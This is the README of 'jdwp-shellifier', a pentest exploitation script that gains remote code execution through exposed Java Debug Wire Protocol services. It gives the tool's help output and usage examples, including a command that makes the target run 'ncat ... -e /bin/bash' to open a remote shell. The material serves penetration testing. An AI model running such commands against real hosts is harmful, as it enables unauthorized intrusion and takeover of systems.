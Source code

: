 # JDWP exploitation script


## [中文介绍](https://github.com/ericzyh/jdwp-shellifier/blob/master/README.cn.md)

## What is it ?
This exploitation script is meant to be used by pentesters against active JDWP service, in order to gain Remote Code Execution.

## How does it work ?
Well, in a pretty standard way, the script only requires a Python 2 interpreter:

	% python ./jdwp-shellifier.py -h
	usage: jdwp-shellifier.py [-h] -t IP [-p PORT] [--break-on JAVA_METHOD]
                          [--cmd COMMAND]

    Universal exploitation script for JDWP by @_hugsy_

    optional arguments:
    -h, --help            show this help message and exit
    -t IP, --target IP    Remote target IP (default: None)
    -p PORT, --port PORT  Remote target port (default: 8000)
    --break-on JAVA_METHOD
    Specify full path to method to break on (default:
    	java.net.ServerSocket.accept)
    	--cmd COMMAND         Specify full path to method to break on (default:
    		None)

To target a specific host/port:

	$ python ./jdwp-shellifier.py -t my.target.ip -p 1234
	
This command will only inject Java code on the JVM and show some info like Operating System, Java version. Since it does not execute external code/binary, it is totally safe and can be used as Proof-Of-Concept

	$ python ./jdwp-shellifier.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
	
This command will actually execute the process `ncat` with the specified argument with the rights given to the running JVM.

Before sending questions, make sure to read http://blog.ioactive.com/2014/04/hacking-java-debug-wire-protocol-or-how.html for full understanding of the JDWP protocol. 

## Thanks
* Ilja Van Sprundel
* Sebastien Macke





